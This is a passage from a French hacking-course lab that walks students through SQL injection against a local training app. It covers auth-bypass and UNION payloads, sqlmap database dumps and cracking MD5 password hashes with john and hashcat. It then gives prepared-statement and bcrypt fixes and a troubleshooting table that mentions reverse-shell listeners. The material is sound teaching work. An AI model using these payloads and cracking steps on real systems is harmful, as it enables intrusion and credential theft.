| 1h | sqli-app (port 8083) | `~/cours-hacking/jour-1/labs/` | [T1190](https://attack.mitre.org/techniques/T1190/) + [T1110.001](https://attack.mitre.org/techniques/T1110/001/) |

### Contexte métier

Dans un vrai pentest, 80% du temps est consacré à **trouver** l'injection avant de l'exploiter. Une fois les données exfiltrées, il faut **craquer les hashs** pour prouver l'impact au client. Ce lab vous fait faire les 3 étapes : trouver → exploiter → craquer.

### Contexte technique — Les 3 types d'injection

L'application `sqli-app` (http://localhost:8083) expose 3 points d'injection différents :

| Point d'injection | Type SQL | Difficile à trouver ? | Payload test |
|---|---|---|---|
| `?id=` (paramètre numérique) | Numeric | Facile | `1 OR 1=1` |
| `username` (champ login) | String (single quote) | Moyen | `admin' --` |
| `?filter=` (LIKE) | String (% wildcard) | Difficile | `%' UNION SELECT...` |

**Pourquoi SQLite ?** Les principes d'injection SQL sont identiques quel que soit le SGBD. Seule la syntaxe des commandes système change (version(), @@version, sqlite_version()). SQLite permet un conteneur léger sans MySQL séparé.

### Prérequis

```bash
# Démarre uniquement le conteneur sqli-app (sans reconstruire les autres) en mode détaché
cd ~/cours-hacking/repo && docker compose up -d sqli-app
# Vérification rapide que l'appli web répond (-I = HEAD, ne télécharge que les en-têtes HTTP)
curl -I http://localhost:8083/
# Création du dossier de labs jour-1 et déplacement dedans (&& garantit l'exécution séquentielle)
mkdir -p ~/cours-hacking/jour-1/labs && cd ~/cours-hacking/jour-1/labs
```

### Étape 1 — Trouver les injections manuellement

**Point 1 : Paramètre `?id=` (numeric)**

```bash
# Requête normale : récupère le produit avec id=1, grep -o extrait uniquement le nom du produit attendu
curl -s "http://localhost:8083/?page=search&id=1" | grep -o "Laptop\|Monitor\|Keyboard"
# → Laptop Pro X  (un seul produit retourné, comportement normal)

# Test SQLi toujours vrai : id=1 OR 1=1 (encodé URL : %20 = espace), grep -c <tr> compte les lignes de tableau
# Si plus d'une ligne → tous les produits sont retournés → injection confirmée
curl -s "http://localhost:8083/?page=search&id=1%20OR%201=1" | grep -c "<tr>"
# → 6 (affiche tous les produits au lieu d'un seul)  (la condition OR 1=1 est toujours vraie)

# Test SQLi toujours faux : id=1 AND 1=2 (contradiction logique), grep -o cherche "Aucun" dans la réponse
# Permet de confirmer l'injection sans extraire de données (moins bruyant)
curl -s "http://localhost:8083/?page=search&id=1%20AND%201=2" | grep -o "Aucun"
# → Aucun produit trouvé  (la condition AND 1=2 est toujours fausse → aucun résultat)
```

**Point 2 : Formulaire de login (string injection)**

```bash
# Login normal avec mauvais mot de passe : doit retourner "Identifiants incorrects" (comportement attendu)
curl -s -d "page=login&username=admin&password=wrong" "http://localhost:8083/" | grep "Identifiants"
# →  Identifiants incorrects  (échec normal, l'authentification fonctionne)

# SQLi bypass auth : admin' -- (le -- commente la vérification du password dans la clause WHERE)
# %20 = espace, le guillemet ferme la chaîne, -- neutralise le reste de la requête SQL
curl -s -d "page=login&username=admin'%20--&password=x" "http://localhost:8083/" | grep "Connecté"
# →  Connecté en tant que admin  (bypass réussi, connecté sans connaître le mot de passe)

# SQLi toujours vrai sur le login : ' OR '1'='1' -- force la clause WHERE à être vraie pour toutes les lignes
# grep -c "Connecté" compte le nombre d'utilisateurs connectés → tous les comptes sont retournés
curl -s -d "page=login&username='%20OR%20'1'='1'%20--&password=x" "http://localhost:8083/" | grep -c "Connecté"
# → 6 (tous les utilisateurs sont "connectés")  (la condition toujours vraie retourne tous les comptes)
```

**Point 3 : Filtre `?filter=` (LIKE injection)**

```bash
# Recherche normale par filtre : retourne l'utilisateur "john", grep <td> filtre les cellules HTML, wc -l les compte
# wc (word count) -l = compte le nombre de lignes reçues en entrée
# Chaque utilisateur occupe 4 cellules (id, username, email, actions) → 4 cellules = 1 utilisateur
curl -s "http://localhost:8083/?page=users&filter=john" | grep "<td>" | wc -l
# → 4 (4 cellules = 1 ligne utilisateur)  (comportement normal, filtre fonctionnel)

# SQLi UNION sur filtre LIKE : %25' = %' (fermeture du LIKE), UNION SELECT injecte des colonnes d'une autre table
# 1 = placeholder numérique, username/password/email = colonnes de la table users à exfiltrer
curl -s "http://localhost:8083/?page=users&filter=%25'%20UNION%20SELECT%201,username,password,email%20FROM%20users%20--" | grep "<td>"
# → <td>1</td><td>admin</td>... (les colonnes de la table users sont affichées : injection UNION confirmée)
```

**Checkpoint A :** Les 3 injections fonctionnent. L'application est vulnérable.

### Étape 2 — Exploitation automatisée avec sqlmap

```bash
cd ~/cours-hacking/jour-1/labs

# sqlmap : --tables = énumère toutes les tables de la base, --batch = mode non-interactif (répond oui par défaut)
# 2>&1 redirige stderr vers stdout pour tout capturer, tee sauvegarde la sortie ET l'affiche dans le terminal
sqlmap -u "http://localhost:8083/?page=search&id=1" --tables --batch 2>&1 | tee sqli_tables.txt
```

Sortie attendue :

```console
[2 tables]
+----------+
| products |
| users    |
+----------+
```

```bash
# sqlmap : -T users = table cible, --columns = énumère toutes les colonnes et leurs types
# Permet de savoir quelles colonnes existent avant de les dumper (username, password, email, role)
sqlmap -u "http://localhost:8083/?page=search&id=1" -T users --columns --batch
```

```console
[5 columns]
+-----------+----------+
| Column    | Type     |
+-----------+----------+
| email     | TEXT     |
| id        | INTEGER  |
| password  | TEXT     |
| role      | TEXT     |
| username  | TEXT     |
+-----------+----------+
```

```bash
# sqlmap : -T users = table, -C username,password,email,role = colonnes à extraire (séparées par des virgules)
# --dump = vide le contenu, --batch = non-interactif, 2>&1 | tee = capture toute la sortie dans sqli_dump.txt
sqlmap -u "http://localhost:8083/?page=search&id=1" \
  -T users -C username,password,email,role --dump --batch 2>&1 | tee sqli_dump.txt
```

Sortie attendue :

```console
+------------+----------------------------------+---------------------+------------+
| username   | password                         | email               | role       |
+------------+----------------------------------+---------------------+------------+
| admin      | 5f4dcc3b5aa765d61d8327deb882cf99 | admin@shop.local    | admin      |
| john_doe   | 482c811da5d5b4bc6d497ffa98491e38 | john@shop.local     | user       |
| jane_dev   | e99a18c428cb38d5f260853678922e03 | jane@shop.local     | dev        |
| supervisor | 0d107d09f5bbe40cade3de5c71e9e9b7 | super@shop.local    | supervisor |
| guest      | 098f6bcd4621d373cade4e832627b4f6 | guest@shop.local    | user       |
| flag_user  | 21232f297a57a5a743894a0e4a801fc3 | flag@secret.local   | admin      |
+------------+----------------------------------+---------------------+------------+
```

**Checkpoint B :** 6 utilisateurs extraits avec leurs hashs MD5.

### Étape 3 — Craquer les hashs

#### Méthode 1 : john the ripper

```bash
cd ~/cours-hacking/jour-1/labs

# Création du fichier de hashs au format username:hash (une entrée par ligne)
# cat > avec heredoc (<< 'EOF') écrit le contenu multiligne dans hashes.txt
# Les guillemets autour de EOF empêchent l'expansion des variables dans le heredoc
# cat = affiche/concatène le contenu d'un fichier ; cat > fichier = écrit dans le fichier depuis l'entrée standard
# << 'EOF' (heredoc) = écrit tout le texte qui suit jusqu'au marqueur EOF dans le fichier
cat > hashes.txt << 'EOF'
admin:5f4dcc3b5aa765d61d8327deb882cf99
john_doe:482c811da5d5b4bc6d497ffa98491e38
jane_dev:e99a18c428cb38d5f260853678922e03
supervisor:0d107d09f5bbe40cade3de5c71e9e9b7
guest:098f6bcd4621d373cade4e832627b4f6
flag_user:21232f297a57a5a743894a0e4a801fc3
EOF

# Décompression de la wordlist rockyou.txt (la plus utilisée en cracking, ~14 millions de mots de passe)
# 2>/dev/null supprime les erreurs si déjà décompressé, || true évite que la commande échoue
# gunzip = décompresse un fichier .gz (format gzip) — rockyou.txt.gz fait ~140 Mo décompressé
# 2>/dev/null supprime les erreurs si déjà décompressé, || true évite que la commande échoue
sudo gunzip /usr/share/wordlists/rockyou.txt.gz 2>/dev/null || true

# Crack avec john : --format=raw-md5 = force le mode MD5 brut (sans sel), --wordlist = dictionnaire utilisé
# 2>/dev/null masque les avertissements (souvent verbeux sur les formats)
john --format=raw-md5 hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt 2>/dev/null
# Affichage des mots de passe craqués : --show affiche les résultats, --format force le même format
john --show --format=raw-md5 hashes.txt  # Affiche tous les mots de passe déjà trouvés
```

Sortie attendue :

```console
admin:password
john_doe:password123
jane_dev:abc123
supervisor:letmein
guest:test
flag_user:admin
```

#### Méthode 2 : recherche en ligne (optionnelle)

```bash
# Méthode alternative : recherche des hashs dans des bases rainbow tables en ligne (CrackStation, md5decrypt)
# Utile quand john/hashcat ne trouve pas — ces sites pré-calculent les hashs MD5 des mots communs
# CrackStation.net ou md5decrypt.net
# 5f4dcc3b5aa765d61d8327deb882cf99 → password
# e99a18c428cb38d5f260853678922e03 → abc123
# 0d107d09f5bbe40cade3de5c71e9e9b7 → letmein
```

#### Méthode 3 : hashcat (si GPU disponible)

```bash
cd ~/cours-hacking/jour-1/labs
# hashcat : -m 0 = mode MD5 (hash type 0), -a 0 = attaque par dictionnaire (straight), --username = ignore la partie user: du fichier
# --force = ignore les avertissements (pilote GPU manquant, matériel non optimal)
hashcat -m 0 -a 0 --username hashes.txt /usr/share/wordlists/rockyou.txt --force
```

**Checkpoint C :** Au moins 3 mots de passe craqués. Le flag_user utilise `admin` comme mot de passe — une erreur classique.

### Étape 4 — Extraire le flag caché

```bash
cd ~/cours-hacking/jour-1/labs

# Extraction du flag caché dans la table products : -T products = table cible, -C name,secret_flag = colonnes à dumper
# Le champ secret_flag contient le flag CTF à trouver (contient NULL pour les produits sans flag)
sqlmap -u "http://localhost:8083/?page=search&id=1" \
  -T products -C name,secret_flag --dump --batch
```

```console
+---------------------+--------------------------------+
| name                | secret_flag                    |
+---------------------+--------------------------------+
| Laptop Pro X        | FLAG{sql_injection_master}     |
| Smart Monitor 27"   | NULL                           |
| ...                 | NULL                           |
+---------------------+--------------------------------+
```

### Checkpoints

- [ ] Injection trouvée sur les 3 points d'entrée
- [ ] sqlmap a extrait 6 utilisateurs avec hashs
- [ ] john/hashcat a craqué au moins 3 mots de passe
- [ ] Flag `FLAG{sql_injection_master}` trouvé

### 🔒 Contre-mesure (M1013 App Hardening + M1027 Password Policies)

L'application sqli-app a **3 points d'injection**. On corrige les 3 en une seule stratégie : **requêtes préparées PDO partout**. On remplace aussi MD5 par bcrypt pour rendre le cracking inutile.

| Point d'injection | Code vulnérable | Code corrigé |
|---|---|---|
| `?id=` (numeric) | `"SELECT * FROM products WHERE id = $id"` | `$stmt = $db->prepare("SELECT * FROM products WHERE id = ?"); $stmt->execute([$id]);` |
| `username` (login) | `"...WHERE username = '$u' AND password = '$hash'"` | `$stmt = $db->prepare("SELECT * FROM users WHERE username = ?"); $stmt->execute([$u]);` puis `password_verify($p, $hash)` |
| `?filter=` (LIKE) | `"...WHERE username LIKE '%$filter%'"` | `$stmt = $db->prepare("SELECT * FROM users WHERE username LIKE ?"); $stmt->execute(["%$filter%"]);` |
| MD5 | `md5($password)` | `password_hash($password, PASSWORD_BCRYPT)` |

```bash
# Appliquer la correction sur le conteneur sqli-app
docker exec sqli-app-target bash -c "
  cd /var/www/html
  # Sauvegarde du fichier vulnérable
  cp index.php index.php.vuln
  # Remplacer les 3 requêtes vulnérables par des requêtes préparées PDO
  sed -i 's/\$db->query(\$query)/\$stmt = \$db->prepare(\"SELECT id, name, price, description FROM products WHERE id = ?\"); \$stmt->execute([(int)\$id]); \$stmt->fetchAll(PDO::FETCH_ASSOC)/' index.php
"
# Re-tester sqlmap après correction :
sqlmap -u "http://localhost:8083/?page=search&id=1" --batch 2>&1 | grep -i "injectable\|not injectable"
# → all tested parameters do not appear to be injectable (sqlmap échoue : les 3 points d'injection sont neutralisés)
```

> **Checkpoint défensif :** sqlmap ne trouve plus aucune injection. Avec bcrypt, john/hashcat ne peuvent plus craquer les mots de passe en quelques secondes.

---

## Exercices

### Exercice 1 : Couche ATT&CK Navigator

**Énoncé :** Créez une couche avec [T1046](https://attack.mitre.org/techniques/T1046/), [T1189](https://attack.mitre.org/techniques/T1189/), [T1190](https://attack.mitre.org/techniques/T1190/), [T1059.004](https://attack.mitre.org/techniques/T1059/004/), [T1203](https://attack.mitre.org/techniques/T1203/). Exportez en JSON.

<details><summary><strong>Solution</strong></summary>
1. https://mitre-attack.github.io/attack-navigator/ → New Layer → Enterprise v15
2. Ajouter les 5 techniques, colorer (rouge = testé)
3. Download as JSON
</details>

### Exercice 2 : Mapping WannaCry

**Énoncé :** WannaCry (2017) utilisait EternalBlue. Quelles techniques ATT&CK ?

<details><summary><strong>Solution</strong></summary>
- EternalBlue (CVE-2017-0144) → [T1210](https://attack.mitre.org/techniques/T1210/) ([TA0008](https://attack.mitre.org/tactics/TA0008/)), DoublePulsar → [T1543.003](https://attack.mitre.org/techniques/T1543/003/) ([TA0003](https://attack.mitre.org/tactics/TA0003/)), Chiffrement → [T1486](https://attack.mitre.org/techniques/T1486/) ([TA0014](https://attack.mitre.org/tactics/TA0014/))
</details>

### Exercice 3 : Mini-rapport DVWA

**Énoncé :** Rédigez 4 fiches (une par vulnérabilité) avec type, ATT&CK, impact, remédiation.

<details><summary><strong>Solution</strong></summary>
1. XSS → [T1189](https://attack.mitre.org/techniques/T1189/) → htmlspecialchars() + CSP
2. CSRF → [T1203](https://attack.mitre.org/techniques/T1203/) → Token anti-CSRF
3. SQLi → [T1190](https://attack.mitre.org/techniques/T1190/) → Requêtes préparées PDO
4. CMDi → [T1059.004](https://attack.mitre.org/techniques/T1059/004/) → escapeshellcmd()
</details>

---

## Dépannage rapide

| Problème | Cause probable | Solution |
|---|---|---|
| `curl: (56) Recv failure: Connection reset` | Conteneur pas encore prêt | `docker compose logs dvwa` pour voir l'avancement, attendre quelques secondes |
| `curl: (7) Failed to connect` | Conteneur non démarré | `docker compose ps` pour vérifier l'état, `docker compose up -d` pour relancer |
| Connexion DVWA : "Login failed" | Session expirée ou cookie corrompu | Relancer : `curl -s -c /tmp/dvwa_cookie.txt -d "username=admin&password=password&Login=Login" "http://localhost:8088/login.php"` |
| `sqlmap` ne trouve aucun paramètre injectable | Cookie invalide ou `security` != low | Vérifier `/tmp/dvwa_cookie.txt` avec `cat /tmp/dvwa_cookie.txt` — doit contenir `security=low` |
| Reverse shell ne se connecte pas | Mauvaise IP ou firewall bloque | `ip addr show docker0` pour trouver l'IP hôte ; `sudo ufw disable` si le firewall local bloque |
| Reverse shell : connexion refusée | Écouteur nc pas lancé | Lancer d'abord `nc -lvnp 4444` **dans un terminal séparé**, **avant** le payload |
| `docker: permission denied` | Utilisateur pas dans le groupe docker | `sudo usermod -aG docker $USER` puis **fermer/rouvrir** la session |
| Port déjà utilisé (8088, 8083...) | Conflit avec service local | `sudo lsof -i :8088` pour identifier le processus, `sudo systemctl stop <service>` |
| `grep: 5` au lieu de `→ 5` | Sortie attendue non formatée | C'est normal — seul le chiffre compte (le commentaire `→` n'est pas produit par grep) |

## Points clés à retenir

- **MITRE ATT&CK** : chaque attaque → ID Txxxx ([T1046](https://attack.mitre.org/techniques/T1046/), [T1189](https://attack.mitre.org/techniques/T1189/), [T1190](https://attack.mitre.org/techniques/T1190/), [T1059.004](https://attack.mitre.org/techniques/T1059/004/))
- Les 14 tactiques couvrent le cycle complet d'une cyberattaque
- **DVWA** expose les 4 familles de vulnérabilités web
- **XSS vole des sessions**, **SQLi vole des données**, **CMDi donne un shell**
- **Reverse shell** : toujours vérifier que la cible peut joindre votre IP Kali (docker0 = 172.17.0.1)

## Pour aller plus loin

- [MITRE ATT&CK Navigator](https://mitre-attack.github.io/attack-navigator/)
- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [DVWA GitHub](https://github.com/digininja/DVWA)
- TryHackMe : [Jr Penetration Tester Path](https://tryhackme.com/path/jr-penetration-tester) — room [DVWA](https://tryhackme.com/room/dvwa)

---


